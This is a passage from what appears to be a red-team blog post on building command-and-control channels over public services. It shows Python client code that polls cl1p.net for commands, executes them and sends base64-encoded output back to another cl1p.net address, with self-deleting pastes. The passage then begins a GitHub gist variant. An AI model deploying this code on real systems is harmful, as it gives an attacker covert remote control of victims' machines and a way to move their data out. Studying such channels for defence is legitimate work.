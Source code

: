 ```Python
        soup = BeautifulSoup(response.text, 'html.parser')
        textarea = soup.find('textarea', {'id': 'cl1pTextArea'})
        if textarea:
            content = textarea.get_text().strip()
            output = execute_system_command(content)[1]
            data = {
            'ttl': '0',
            'content': base64.b64encode(output.encode()).decode(),
            }
            response = requests.post('https://cl1p.net/'+RESPONSE_ID, data=data, verify=False)
        else:
            time.sleep(1)

```
On the client-side, it keeps monitoring the address where the command is stored. When the address contains a command, it executes it. After execution, it sends the command’s output to a different address where the server can retrieve it and similar to the server code, `ttl` is also set to `0` here to delete the content once viewed.

### Execution
Let's see it in action now:
![clip](/assets/img/posts/2024-02-23-c2-all-the-things/clip-1.png)
As you can see I tried to give it some commands and it executed them and sent me the results. In a real world scenario, `client.py` would be in victim's system and `server.py` in attacker's.

## Github
> "GitHub is a proprietary developer platform that allows developers to create, store, manage, and share their code." - Github

In the case of [github](https://github.com), one of the scenarios that can be implmeneted is to create a private/public gist storing the command in the first comment or in a file. Then the script can read it executing the command as well as creating a new comment to store its output there.

### Prerequisites
For this scenario to work we have to create a Personal Access Token(PAT) in github. Moreover the PAT should have permissions over gist:
![git](/assets/img/posts/2024-02-23-c2-all-the-things/git-2.png)
